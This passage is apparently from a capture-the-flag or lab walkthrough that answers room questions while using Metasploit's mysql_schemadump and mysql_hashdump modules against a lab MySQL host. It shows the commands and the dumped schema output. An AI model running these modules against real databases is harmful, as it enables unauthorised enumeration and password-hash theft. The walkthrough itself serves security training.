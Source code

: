 #### Answer
First, let's search for and select the "mysql_schemadump" module. What's the module's full name?
```bash
msf6 auxiliary(admin/mysql/mysql_sql) > search mysql_schemadump

Matching Modules
================

   #  Name                                      Disclosure Date  Rank    Check  Description
   -  ----                                      ---------------  ----    -----  -----------
   0  auxiliary/scanner/mysql/mysql_schemadump                   normal  No     MYSQL Schema Dump


Interact with a module by name or index. For example info 0, use 0 or use auxiliary/scanner/mysql/mysql_schemadump 
```
It's **auxiliary/scanner/mysql/mysql_schemadump**.

Great! Now, you've done this a few times by now so I'll let you take it from here. Set the relevant options, run the exploit. What's the name of the last table that gets dumped?
```bash
msf6 auxiliary(scanner/mysql/mysql_schemadump) > exploit
...
    ColumnType: bigint(20) unsigned
    - ColumnName: avg_latency
      ColumnType: bigint(20) unsigned
    - ColumnName: max_latency
      ColumnType: bigint(20) unsigned
  - TableName: x$waits_global_by_latency
    Columns:
    - ColumnName: events
      ColumnType: varchar(128)
    - ColumnName: total
      ColumnType: bigint(20) unsigned
    - ColumnName: total_latency
      ColumnType: bigint(20) unsigned
    - ColumnName: avg_latency
      ColumnType: bigint(20) unsigned
    - ColumnName: max_latency
      ColumnType: bigint(20) unsigned

[*] 10.10.39.195:3306     - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
It's **x$waits_global_by_latency**.

Awesome, you have now dumped the tables, and column names of the whole database. But we can do one better... search for and select the "mysql_hashdump" module. What's the module's full name?
```bash
msf6 auxiliary(scanner/mysql/mysql_schemadump) > search mysql_hashdump

Matching Modules
================

   #  Name                                    Disclosure Date  Rank    Check  Description
   -  ----                                    ---------------  ----    -----  -----------
   0  auxiliary/analyze/crack_databases                        normal  No     Password Cracker: Databases
   1  auxiliary/scanner/mysql/mysql_hashdump                   normal  No     MYSQL Password Hashdump


Interact with a module by name or index. For example info 1, use 1 or use auxiliary/scanner/mysql/mysql_hashdump
```